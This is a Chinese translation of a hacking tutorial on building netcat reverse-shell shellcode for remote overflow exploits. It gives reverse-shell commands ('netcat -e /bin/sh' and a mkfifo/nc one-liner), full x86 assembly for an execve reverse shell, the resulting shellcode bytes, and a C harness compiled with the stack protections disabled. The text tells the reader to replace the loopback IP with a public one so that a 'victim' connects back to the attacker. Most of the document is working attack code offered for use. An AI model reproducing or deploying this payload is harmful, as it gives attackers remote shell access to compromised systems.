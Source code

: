 # 使用netcat进行反弹链接的shellcode

from:[http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/](http://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat/)

这篇文章主要是谈，在远程溢出时怎样构造shellcode，才能形成一个有效的反弹链接。

0x00 反向绑定远程shell
----------------

* * *

让本地主机和远程shell建立起连接的方法有很多种，其中最常见的是在远程主机上开放一个端口，然后把它的

```
stdout/stderr/stdin

```

重定向到一个shell上。

这样我们就可以在自己的主机上通过一个简单的netcat命令来连接它。

但是，大多数情况下这种方法并不能起作用，很多服务器只对外开放少量的几个端口，比如，http(s),ftp,smtp等。

其他的数据包都会被防火墙直接丢弃。解决这种问题的方法就是使用反弹链接，反弹链接的意思就是，让远程的主机主动连接我们的服务器。

所以，你需要在自己的机器上开放一个端口，等待着倒霉的受害者自己连接你的主机就可以了。

0x01 netcat -e命令
----------------

* * *

首先我们假设，目标网站上安装了netcat。

通常情况下netcat支持e参数，这个参数将会运行后面所跟的程序，并将它跟链接绑定。

如果我们把`/bin/sh`通过e参数绑定，并开启监听，那当我们使用远程主机连接到这台主机时，就相当于获得了一个shell。让我们来尝试一下。

在本地主机运行

```
netcat -lvp 9999

```

监听连入的链接。

新开一个shell运行

```
netcat -e /bin/sh 127.0.0.1 9999  

```

这样，你的第一个shell将建立起一个链接，在其中执行`ls whoami`等命令，测试一下它是否可以正常工作，  
你也可以使用 Ctrl+c 来关闭这个链接。

注意:openbsd版本的netcat不支持 -e或者-c 参数。

你可以使用以下的语句来替代。

```
rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f

```

但是它太复杂了，很难在shellcode中运行。

0x02 汇编代码
---------

* * *

现在我们就来看一下怎样把这条语句通过汇编执行，并放入shellcode中。

下面是，我们shellcode重要运行的汇编代码。(intel语法)

```
jmp short       forward
back:
pop             esi
xor             eax, eax
mov byte        [esi + 11], al    ; terminate /bin/netcat
mov byte        [esi + 14], al    ; terminate -e
mov byte        [esi + 22], al    ; terminate /bin/sh
mov byte        [esi + 38], al    ; terminate 127.127.127.127
mov byte        [esi + 43], al    ; terminate 9999
mov long        [esi + 44], esi   ; address of /bin/netcat in AAAA
lea             ebx, [esi + 12]   ; get address of -e  
mov long        [esi + 48], ebx   ; store address of -e in BBBB 
lea             ebx, [esi + 15]   ; get address of /bin/sh
mov long        [esi + 52], ebx   ; store address of /bin/sh in CCCC
lea             ebx, [esi + 23]   ; get address of 127.127.127.127
mov long        [esi + 56], ebx   ; store address of 127.127.127.127 in DDDD
lea             ebx, [esi + 39]   ; get address of 9999
mov long        [esi + 60], ebx   ; store address of 9999 in EEEE
mov long        [esi + 64], eax   ; put NULL in FFFF
mov byte        al, 0x0b          ; pass the execve syscall number as argument
mov             ebx, esi          
lea             ecx, [esi + 44]   ; /bin/netcat -e /bin/sh etc etc
lea             edx, [esi + 64]   ; NULL
int             0x80              ; Run the execve syscall

forward:
call            back
db "/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF"

```

其实上面代码想做的翻译成c语言是如下两行

```
char *command[] = {"/bin/netcat", "-e", "/bin/sh", "127.127.127.127", "9999", NULL};
execve(command[0], command, NULL);

```

命令就是如下的字符串

```
/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF

```

字符串中各个部分被`#`隔开，是因为在shellcode中不能出现null，这会造成shellcode被截断，从而不能被  
目标主机正确运行。

不管我们在哪里运行这段程序，首先需要知道的是命令字符串的地址。

所以我在第1行和第26行分别创建了两个标签（forword和back），使用call命令时(27行)，首先会把返回地址入栈，返回地址就是下一条指令的地址，而下一条指令的地址恰巧就是我们的命令字符串。

回到第3行，我们把命令字符串地址弹出到ESI寄存器，然后将EAX初始化，注意我们不能直接使用

```
mov eax,0

```

因为null在shellcode中是不允许出现的。最后我们吧，命令字符串分开存放到内存之中。

![1396093148.png](http://drops.javaweb.org/uploads/images/bb45c4efe62d7c0e3b707b9a4d5514cf39f719af.jpg)

在第5行到第9行，我们把寄存器中的0移动到字符串的末尾，使用替代`#`（取自eax寄存器，其中的0使用xor生成）之后我们需要一个各个字符串地址的数组，作为execve()的第二个参数。

在第十行，我们把`/bin/netcat`的地址放入 AAAA 所在的位置，程序中的11到18行也是在做同样的事情，最后19行我们把存入到FFFF的位置，作为字符串的结尾。

在第20行我们准备执行系统调用，我们首先把0xb存储到eax中，esi(/bin/netcat的地址)存储到ebx中，字符串的地址存储到，ecx中，最后edx存储null，之后使用0x80触发系统调用，不出意外的话，一个反弹链接的指令就成功执行了。

这个例子中，ip地址使用的是127.127.127.127  端口号是 9999，这是一个本地的ip地址。通常情况下  
你需要使用一个外网IP来替换掉它，如果两个ip长度不同的话，你要仔细的修改掉所有与他相关联的汇编代码。

0x03 编译测试shellcode
------------------

* * *

现在，需要把汇编代码存储到一个asm文件之中，我们这里叫做shell.asm,使用以下的语句编译它，

```
nasm -felf32 -o shell.o shell.asm

```

使用，`objdump -D`命令我们就可以看到这个小程序的opcodes,使用下面一段指令我们就可以把它们  
放入到一个C字符串中

```
for i in $(objdump -d shell.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

```

最后我们得到

```
\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46

```

最后我们使用一段c程序来验证这个shell是否可行。

```
char shellcode[] = "\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}

```

想要编译它，需要关闭一些安全编译选项，然后使用如下命令。

```
gcc shellcode.c -fno-stack-protector -z execstack -o shellcode  

```

在另一个shell中运行`netcat -lvp 9999`，然后运行这个c程序`./shellcode`如果一切正确的话你就可以得到一个反弹链接的shell了。

![1396096315.png](http://drops.javaweb.org/uploads/images/783fbcf658201a2178739114323f9b363fcb9eb3.jpg)

happy hacking!